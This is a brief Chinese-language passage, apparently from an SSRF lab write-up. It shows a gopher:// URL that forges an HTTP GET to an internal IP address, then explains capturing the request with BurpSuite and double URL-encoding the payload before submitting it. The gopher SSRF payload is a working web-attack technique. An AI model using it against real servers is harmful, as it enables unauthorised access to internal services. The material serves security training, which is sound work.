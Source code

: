 gopher://172.250.250.4:80/_GET%20/name.php%3fname=benben%20HTTP/1.1%0d%0AHost:%20172.250.250.4%0d%0A

#### 2.BurpSuite抓包

提交：gopher://172.250.250.4:80/_

BurpSuite抓包：![image-20240401154607421](././././././././././SSRF/image-20240401154607421.png)

把构造的代码粘贴在url后面，做两次URL编码进行提交

![image-20240401164505250](././././././././././SSRF/image-20240401164505250.png)
